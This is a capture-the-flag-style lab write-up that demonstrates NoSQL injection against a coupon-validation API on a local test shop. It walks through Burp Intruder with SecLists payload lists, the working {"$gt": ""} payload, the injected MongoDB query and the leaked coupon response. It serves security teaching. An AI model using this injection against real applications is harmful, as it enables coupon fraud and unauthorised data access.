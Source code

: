 
---

# 📖 High-Level Summary:

This lab demonstrates a **NoSQL Injection** attack on a coupon code validation feature. By injecting a malicious payload (`{"$gt":""}`), the application bypasses the coupon validation logic and returns valid coupon data, including sensitive details such as the discount amount and creation date.

---

# 📚 Definition Bank:

|**Term**|**Definition**|**Key Notes**|
|---|---|---|
|**NoSQL Injection**|A vulnerability that exploits improperly sanitized inputs in NoSQL databases.|Targets query structures with operators like `$gt` (greater than) and `$ne` (not equal).|
|**Burp Suite Intruder**|A tool for automating attacks by injecting payloads into requests.|Can be configured with payload lists to discover vulnerabilities.|
|**Payload Encoding**|The process of converting payloads to a specific format to ensure compatibility with the server.|Must be turned off for NoSQL-specific payloads to retain their structure.|
|**Status Code 422**|Unprocessable Entity: Indicates the server understands the request but cannot process it.|Useful for identifying potential injection points.|

---

# 🎯 Steps and Commands:

### Step 1: Capture the Coupon Code Request

1. Navigate to:
    
    ```plaintext
    http://localhost:8888/shop
    ```
    
2. Enter an invalid coupon code (e.g., `asdasd`) and observe the traffic in **Burp Suite**.
3. Locate the POST request in **Proxy > HTTP history**:
    - **Request URL**:
        
        ```plaintext
        POST /community/api/v2/coupon/validate-coupon
        ```
        
    - **Request Body**:
        
        ```json
        {
          "coupon_code": "asdasd"
        }
        ```

---

### Step 2: Set Up Intruder

1. Send the request to **Intruder**.
    
2. Mark the position of the **coupon_code** parameter:
    
    - Highlight `asdasd` and replace it with positional markers:
        
        ```json
        {
          "coupon_code": "§asdasd§"
        }
        ```
        
    - **Note:** The payload must preserve the JSON structure; ensure the injection is within the quotes.
3. Load the initial payload list:
    
    - Go to **Payloads** > **Load** and select:
        
        ```plaintext
        /usr/share/seclists/Fuzzing/SQLi/Generic-Sqli.txt
        ```
        
4. Run the attack and analyze the responses:
    
    - Look for status codes and response lengths that differ from the baseline.
    - **Observation:** Status code `422` with responses like:
        
        ```json
        "error":"invalid character 'z' in literal true (expecting 'r')"
        ```

---

### Step 3: Use a NoSQL-Specific Payload List

1. Switch to a NoSQL payload list:
    
    - Load:
        
        ```plaintext
        /usr/share/seclists/Fuzzing/Databases/NoSQL.txt
        ```
        
2. Turn off **Payload Encoding**:
    
    - Ensure the payloads are sent exactly as they appear in the list without URL encoding.
3. Run the attack again and analyze responses:
    
    - Identify a payload with a **200 status code**:
        
        ```json
        {"$gt": ""}
        ```

---

### Step 4: Validate the Injection

1. Observe the successful response:
    
    ```json
    {
      "success": true,
      "coupon_code": "DISCOUNT50",
      "amount": 50,
      "created_at": "2025-01-14T04:08:46.339Z"
    }
    ```
    
    - The application bypasses the coupon validation logic and exposes sensitive coupon details.

---

# 🔍 Why Does the Payload Work?

1. **NoSQL Query Logic**:
    
    - The payload:
        
        ```json
        {"$gt": ""}
        ```
        
        uses the `$gt` (greater than) operator, which evaluates the coupon code as being "greater than" an empty string.
2. **Query Manipulation**:
    
    - Original Query:
        
        ```json
        db.coupons.findOne({ "coupon_code": "asdasd" })
        ```
        
    - Injected Query:
        
        ```json
        db.coupons.findOne({ "coupon_code": { "$gt": "" } })
        ```
        
        - This matches any coupon code that is greater than an empty string, bypassing validation.
3. **Response Success**:
    
    - The application assumes the query returned a valid coupon, exposing details such as the code, amount, and creation date.

### **Why Does `{"$gt": ""}` Return a Value?**

The payload `{"$gt": ""}` works because the `$gt` operator matches any value greater than an empty string. When this is injected into the query:

json

CopyEdit

`db.coupons.findOne({ "coupon_code": { "$gt": "" } })`

1. The database searches for **any record** where the `coupon_code` is greater than an empty string (`""`).
2. Since valid `coupon_code` values (e.g., `"DISCOUNT50"`) are non-empty, the query condition is satisfied.
3. MongoDB returns the **first matching record** it finds in the `coupons` collection.

This works because the query does not require a specific coupon code; it only checks that one exists and satisfies the condition.

---

# ✅ Key Takeaways:

1. **Positional Markers in Intruder**:
    - Ensure the payload is placed correctly within the JSON structure to avoid syntax errors.
2. **NoSQL-Specific Payloads**:
    - Use appropriate payloads for NoSQL injections, and disable encoding when necessary.
3. **Analyzing Responses**:
    - Status codes like `200` or `422`, along with response content, can reveal injection points and successful payloads.

---
